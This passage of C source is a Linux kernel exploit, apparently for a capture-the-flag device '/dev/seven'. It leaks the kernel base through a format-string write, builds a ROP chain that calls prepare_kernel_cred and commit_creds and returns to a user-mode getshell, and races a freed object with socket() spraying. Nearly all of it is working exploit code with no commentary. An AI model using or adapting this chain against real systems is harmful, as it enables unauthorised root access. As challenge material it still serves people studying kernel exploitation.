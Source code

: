 ```c
    i = 0;
    
    rsp[i++] = K(0xffffffff810016e9); // pop rdi;ret 
    rsp[i++] = 0;
    rsp[i++] = K(0xffffffff8108c780); // prepare_kernel_cred 
    rsp[i++] = K(0xffffffff819b5764); //mov rdi, rax; je 0xbb576f; mov rax, rdi; pop rbx; pop rbp; ret; 
    rsp[i++] = 0;
    rsp[i++] = 0;
    rsp[i++] = K(0xffffffff8108c360); // commit_cred
    
    rsp[i++] = K(0xffffffff81c00f58); // swapgs; ret;
    rsp[i++] = K(0xffffffff81024f92); // iretq; ret;
    rsp[i++] = (uint64_t)(getshell); 
    rsp[i++] = user_cs; 
    rsp[i++] = user_eflags; 
    rsp[i++] = user_sp; 
    rsp[i++] = user_ss; 

    while(raceflag)
    {
        write(fd,buf,0x20);
    }
}


int main()
{

    uint64_t addr;
    signal(SIGSEGV,getshell);

    fd = open("/dev/seven",2);
    if(fd == -1)
    {
        printf("[!] open fails!");
        exit(-1);
    }


    add();
    write(fd,"%llx %llx %llx %llx %llx %llx",0x80);
    show();
    show();
    scanf("%llx",&addr);
    K_base = addr - 0xffffffffa3bf3ecd + 0xffffffffa3a00000;

    printf("[+] K_base => %p\n",(void*)K_base);
    printf("[+] gadget => %p\n",(void*)K(0xffffffff81011cb0));
    printf("[+] mmap   => %p\n", (void*)(K(0xffffffff81011cb0)&(0xffffffff)));


    save_stats();
    del();
    
    pthread_t thread_pid1;
    pthread_create(&thread_pid1,NULL,race_to_write,NULL);
    usleep(0.1);

    while(raceflag)
    {
        socket(22, AF_INET, 0);
    }    
```